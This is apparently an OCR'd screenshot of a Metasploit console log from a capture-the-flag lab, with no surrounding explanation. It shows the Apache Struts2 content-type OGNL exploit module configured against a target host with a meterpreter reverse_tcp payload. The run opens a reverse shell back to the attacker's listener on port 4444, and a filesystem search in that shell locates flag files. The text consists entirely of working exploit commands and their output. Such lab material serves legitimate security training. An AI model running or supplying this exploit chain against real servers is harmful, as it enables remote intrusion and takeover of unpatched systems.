 ```
PAYLOAD => linux/x86/meterpreter/reverse_tcp

msf5 exploit(multi/http/struts2_content_type_ognl) > show options

Module options (exploit/multi/http/struts2_content_type_ognl):

   Name       Current Setting   Required  Description
   ----       ---------------   --------  -----------
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.191.224     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                yes       The target port (TCP)
   SSL        false             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /showcase.action  yes       The path to a struts application action
   VHOST                        no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.8.106.222     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Universal


msf5 exploit(multi/http/struts2_content_type_ognl) > run

[*] Started reverse TCP handler on 10.8.106.222:4444 
[*] Sending stage (980808 bytes) to 10.10.191.224
[*] Meterpreter session 1 opened (10.8.106.222:4444 -> 10.10.191.224:33544) at 2020-10-01 21:45:39 +0200

meterpreter > shell
Process 56 created.
Channel 1 created.

find / 2>>/dev/null | grep -i "flag"
/sys/devices/pnp0/00:06/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/virtual/net/eth0/flags
/sys/module/scsi_mod/parameters/default_dev_flags
/proc/sys/kernel/acpi_video_flags
/proc/kpageflags
/usr/lib/x86_64-linux-gnu/perl/5.20.2/bits/waitflags.ph
/usr/local/tomcat/webapps/ROOT/ThisIsFlag1.txt
/flag-dir
```
